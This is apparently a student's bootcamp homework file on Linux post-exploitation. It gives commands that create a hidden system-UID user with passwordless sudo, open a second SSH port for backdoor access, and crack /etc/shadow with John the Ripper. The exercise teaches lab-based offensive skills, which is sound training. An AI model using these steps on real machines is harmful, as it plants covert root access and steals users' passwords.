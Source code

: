 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt.

Save and submit the completed file for your homework submission.

**Step 1: Shadow People**

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd --no-create-home sysd`

2. Give your secret user a password:
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 127 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 127 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo`
   - Then make the following edit:
   - `sysd ALL=(ALL:ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
    sudo ls
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    vi /etc/ssh/sshd_config

    # Then make the following edits:
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart sshd`

2. Exit the `root` account:
    - `exit # twice`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`
    - `john /etc/shadow`

---

© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
